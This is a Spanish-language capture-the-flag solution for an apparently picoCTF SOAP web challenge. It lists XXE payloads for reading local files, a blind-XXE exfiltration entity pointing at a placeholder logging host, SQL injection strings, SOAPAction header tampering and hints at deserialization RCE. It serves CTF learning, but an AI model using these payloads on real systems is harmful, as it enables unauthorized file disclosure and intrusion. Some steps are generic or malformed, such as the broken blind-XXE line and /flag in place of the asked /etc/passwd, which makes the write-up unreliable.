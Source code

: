 #### Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
### **Solución** 

**Idea clave:** inspecciona el WSDL y las peticiones SOAP, luego prueba fallos típicos: XXE para leer archivos locales (`/flag`), manipular parámetros para ejecutar acciones no autorizadas, cambiar headers (`SOAPAction`, `Content-Type`) o usar deserialización insegura (payloads Java/.NET). Herramientas útiles: `curl`, `soapUI`, Burp, `xmlstarlet`.

1. **Recon — obtener WSDL / describir servicio**
    

`# si hay URL base: curl -s "https://HOST/service?wsdl" -o service.wsdl # o abrir endpoint en navegador: https://HOST/service?wsdl # listar operaciones (buscar <wsdl:operation> y <soap:operation>) grep -i "<soap:operation\|<wsdl:operation" -n service.wsdl || true`

2. **Probar una petición SOAP básica (ejemplo usando curl)**
    

`cat > req.xml <<'XML' <?xml version="1.0" encoding="UTF-8"?> <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:ns="http://example.com/ns">   <soapenv:Header/>   <soapenv:Body>     <ns:someOperation>       <ns:input>test</ns:input>     </ns:someOperation>   </soapenv:Body> </soapenv:Envelope> XML  curl -s -X POST "https://HOST/service" \   -H "Content-Type: text/xml;charset=UTF-8" \   -H "SOAPAction: \"someAction\"" \   --data @req.xml -i`

Ajusta `someOperation`/`someAction` según el WSDL.

3. **XXE — intentar leer archivos locales (ej.: /flag)**  
    Inserta DOCTYPE con entidad externa en la petición:
    

`<?xml version="1.0"?> <!DOCTYPE foo [   <!ELEMENT foo ANY >   <!ENTITY xxe SYSTEM "file:///flag" >]> <soapenv:Envelope ...>   <soapenv:Body>     <ns:someOperation>       <ns:input>&xxe;</ns:input>     </ns:someOperation>   </soapenv:Body> </soapenv:Envelope>`

Enviar como en (2). Si el parser permite XXE, la respuesta contendrá el contenido del archivo.

4. **Blind XXE / exfiltration por HTTP**  
    Si no devuelven el contenido directo, exfiltra vía DNS/HTTP:
    

`<!ENTITY xxe SYSTEM "http://TU_DNS_LOGGER.example.com/?f=%file;]">`

Usa un servicio de logging de DNS/HTTP (o `ngrok`/servertest) y observa peticiones entrantes.

5. **Inyección/Manipulación de parámetros**
    

- Cambia valores de nodos para ver si hay control sobre consultas internas (p. ej. `userid` → `1 OR 1=1`).
    
- Si el backend construye queries a partir de XML sin parametrizar, prueba payloads SQL/XML injection:
    

`<ns:userid>1' or '1'='1</ns:userid>`

6. **SOAPAction / Headers / Content-Type trick**
    

- Algunos servidores enrutan por `SOAPAction`: intenta modificarlo para llamar operaciones internas:
    

`-H 'SOAPAction: "urn:adminAction"'`

- Cambia `Content-Type` entre `text/xml` y `application/soap+xml` si hay diferencias en cómo se procesa.
    

7. **Deserialización insegura (Java/.NET)**
    

- Si el servicio deserializa objetos (JAXB, XMLSerializer), intenta payloads que instancien clases peligrosas o ejecuten cargas útil RCE (vuln en commons-collections, etc.). Usa plantillas conocidas por framework (requiere adaptación).
    
- Observa `Content-Type` y namespaces para deducir stack (p. ej. `http://schemas.xmlsoap.org/soap/envelope/` vs `application/soap+xml`).
    

8. **Enumeración de operaciones / endpoints ocultos**
    

- Revisa WSDL por `soap:address location=".../admin"` u otros endpoints.
    
- Revisa `types`/`binding` por mensajes y estructuras que revelen parámetros secretos.
    

9. **Automatización y testeo con soapUI / Burp**
    

- Importa WSDL en soapUI y prueba operaciones fácilmente.
    
- Usa Burp Repeater/Intruder para iterar payloads (XXE, header fuzzing, parameter fuzzing).
    

10. **Validación final**
    

- Si obtienes salida con `picoCTF{...}` o `/flag` content, copia la flag y registra el payload exacto que la devolvió (XML enviado + headers).
    

---

### **Notas adicionales**

- XXE funciona si el parser permite entidades externas y no está mitigado (disable DOCTYPE o usar parser seguro).
    
- Blind XXE por DNS/HTTP útil cuando respuesta no retorna archivos.
    
- Deserialización RCE es poderosa pero depende del stack (Java vs .NET) y requiere payloads específicos.
    
- Siempre prueba en la instancia del reto; no uses estas técnicas en sistemas no autorizados.
    
- Herramientas clave: `curl`, `soapUI`, Burp Suite, `xmlstarlet` (para validar/transformar XML), servicio de DNS logging (burpcollaborator, interact.sh).
    

---

### **Referencias**

- OWASP — XXE Prevention Cheat Sheet.
    
- SOAP-specific testing guides — soapUI docs / Burp docs.
    
- PayloadsAllTheThings — XXE / SOAP / deserialization examples.
    
- `xmlstarlet` — manipulación/validación XML en CLI.
